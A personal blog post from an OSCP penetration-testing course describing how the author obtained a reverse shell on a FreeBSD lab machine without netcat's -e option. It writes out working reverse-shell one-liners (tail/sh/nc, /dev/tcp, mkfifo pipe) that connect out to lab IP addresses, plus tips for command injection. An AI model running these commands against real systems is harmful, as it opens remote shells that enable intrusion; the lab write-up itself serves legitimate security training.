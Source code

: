```yaml
---
layout: inner
title: 'Using netcat without -e'
date: 2017-08-26 01:37
categories: security
tags: netcat hack draft
featured_image: '/images/posts/netcat-a-swiss-army-tool-1-638.jpg'
lead_text: 'Okay, okay, this is some kind of insiders thing. If you dont know what Im talking about from the title of this article, then there is nothing to see... Please move along!'
---
```


Recently in my OSCP course, I was struggeling a few hours to get a reversed shell connection. It was a FreeBSD box, not quite my expertise.

<img src="/images/posts/netcat_freebsd.png" 
     alt="Netcat on FreeBSD"
     width="320px"
     class="media pull-right img-thumbnail">
I immediately found that netcat was installed, but ofcourse [without the e-option](https://www.google.nl/search?q=netcat+GAPING_SECURITY_HOLE). All references to netcat without -e suggest you use  After trying harder for many many many tries, I finally came up with the following solution.

1. Use tail -f to feed commands from a temporary file to bash. (Using -n 0 to ignore any current content of the temporary file.)
2. Redirect the output of the shell command to netcat.
3. Redirect the output of netcat to the temporary file, so the tail command picks it up...

The result looks like:
{% highlight bash %}
tail -n 0 -f /tmp/1 | /bin/sh 2>&1 | nc -nv 10.11.0.49 443 1> /tmp/1
{% endhighlight %}

And don't forget, all your commands are stored in the /tmp/1 file... (ツ)

From many other options I found, none seemed to work. A quick test showed that the famous 
[/dev/tcp/&lt;ip&gt;/&lt;port&gt;](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) 
did not work either. The following command did not result in any response on my machine.

{% highlight bash %}
echo foo > /dev/tcp/10.11.0.13/443
{% endhighlight %}

Ofcourse, after having rooted the machine, I was still wondering whether other options found on the internet could work too. In my case I was able to execute multiple commands by separating them with a semicolon. This way a pipe is created first, followed by: netcat reading input from that pipe, netcat redirecting output to bash, bash redirecting stderr and stdout to the pipe again.

{% highlight bash %}
mkfifo pipe; nc -nv 10.11.0.13 443 < pipe | /bin/sh 2>pipe >pipe 
{% endhighlight %}

To wrap up, which things slowed me down finding a way to obtain a reverse shell?
1. Not understanding the "mkfifo pipe" command. This command makes a pipe in the _current_ directory. So not having any rights there, just really does not help...
2. Forgetting that the & character should be url encoded _and_ not by using &amp;. This made me lose the stderr output, that just really does not help either...
3. When uname -a gives back "FreeBSD ... amd64" you probably should not try your Linux/x86 binaries. Oke, but where/how do I get a FreeBSD/amd64 payload?
4. Oh, and last: chmod +x did not work, chmod 777 did the job... (◔_◔)
